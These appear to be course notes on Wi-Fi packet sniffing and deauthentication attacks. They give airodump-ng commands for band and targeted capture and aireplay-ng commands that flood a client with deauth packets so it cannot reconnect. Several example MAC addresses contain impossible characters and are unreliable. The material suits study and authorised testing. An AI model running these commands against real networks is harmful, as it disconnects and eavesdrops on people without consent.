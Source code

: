 # Packet Sniffing and Pre-Connection Attacks

## Using `airodump-ng`

- **Purpose**: Capture packets and display network information and connected clients.
- **Monitor Mode**: The interface must be in monitor mode to use `airodump-ng`.

### Key Terms

- **ESSID**: Name of the wireless network.
- **BSSID**: MAC address of the network.
- **PWR**: Signal strength (higher numbers indicate stronger signals).
- **Beacon**: Frames sent to announce the network's presence, even if hidden.
- **MB**: Maximum speed supported by the network.
- **ENC**: Encryption type (e.g., WEP, WPA, WPA2).

### WiFi Bands

- **2.4 GHz & 5 GHz Frequencies**:
    - Previously, only the 2.4 GHz band was visible.
    - Sniffing 5 GHz is now possible.

### Commands

- **Sniffing 5 GHz**:
    
    bash
    
    Copy code
    
    `airodump-ng --band a wlan0`
    
- **Sniffing 2.4 GHz & 5 GHz Simultaneously**:
    
    bash
    
    Copy code
    
    `airodump-ng --band abg wlan0`
    
    - Note: This method is slower and requires a powerful adapter. It's better to sniff each band independently for efficiency.

## Targeted Packet Sniffing

- **Command**:
    
    bash
    
    Copy code
    
    `airodump-ng --bssid C8:5A:9F:F1:57:B7 --channel 11 --write test wlan0`
    
    - **Explanation**: Sniffs a targeted network by specifying the BSSID and channel, and writes the data to a file named `test`.
- **Viewing Captured Data**:
    
    bash
    
    Copy code
    
    `ls`
    
    - Expected output files:
        
        go
        
        Copy code
        
        `test-01.cap test-01.csv test-01.kismet.csv test-01.kismet.netxml test-01.log.csv`
        
- **Main File**: `test-01.cap` contains everything the devices did on the internet, but data is encrypted.
    

## Deauthentication Attack

- **Purpose**: Disconnect any device from the network without needing the network key.
- **Method**:
    - Change your MAC address to the client's MAC and send deauthentication packets to both the router and the client.

### Commands

- **Basic Deauthentication Attack**:
    
    bash
    
    Copy code
    
    `aireplay-ng --deauth [num_packets] -a [router_mac] -c [target_mac] wlan0`
    
    - Example:
        
        bash
        
        Copy code
        
        `aireplay-ng --deauth 100000000 -a O8:5A:4F:F1:E7:G7 -c 9C:28:F7:61:BF:BC wlan0`
        
- **5 GHz Network Deauthentication**:
    
    bash
    
    Copy code
    
    `aireplay-ng --deauth 100000000 -a [router_mac] -c [target_mac] -D wlan0`
    
    - Example:
        
        bash
        
        Copy code
        
        `aireplay-ng --deauth 100000000 -a M8:5P:9F:F1:07:B7 -c 9C:28:F7:61:BF:BC -D wlan0`
        

### Continuous Attack

- **Run in Separate Terminal**:
    
    bash
    
    Copy code
    
    `airodump-ng --bssid C7:DA:VF:L1:57:B7 --channel 11 wlan0`
    
    - Another terminal:
        
        bash
        
        Copy code
        
        `aireplay-ng --deauth 1000000 -a C7:DA:VF:L1:57:B7 -c CC:28:FY:61:0F:RC wlan0`
        
- **Large Number of Packets**: The large number ensures continuous deauthentication, preventing the client from reconnecting.
